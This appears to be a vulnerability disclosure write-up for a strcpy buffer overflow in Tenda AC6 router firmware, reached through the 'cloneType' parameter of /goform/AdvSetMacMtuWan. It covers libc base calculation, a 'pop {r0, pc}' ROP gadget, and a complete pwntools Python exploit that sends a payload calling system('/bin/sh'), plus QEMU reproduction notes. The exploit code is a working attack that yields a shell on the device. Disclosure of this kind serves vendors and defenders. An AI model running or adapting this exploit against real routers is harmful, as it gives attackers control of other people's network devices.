







# fromAdvSetMacMtuWan-vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the sub_72E7C function. **strcpy(a3 + 0x20, v5);** function copies the contents of the parameter **"cloneType"(or cloneType2)** to a3 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.





## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000





Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

Noticing that sub_72E7C is called by fromAdvSetMacMtuWan, we should pay attention that when overwriting the return address of fromAdvSetMacMtuWan, we also rewrite some local variables in fromAdvSetMacMtuWan. To make it run normally before returning, we should set the value of [sp+17Ch] and [sp+180h] as 0xffffffff（minus one）.



```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"/bin/sh: {hex(binsh_addr)}")
print(f"pop {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'cloneType': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xf4 * b'A' + b'\xff\xff\xff\xff' + b'\xff\xff\xff\xff' + 0x10 * b'A' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  




Then after running the exp twice we can get shell successfully.

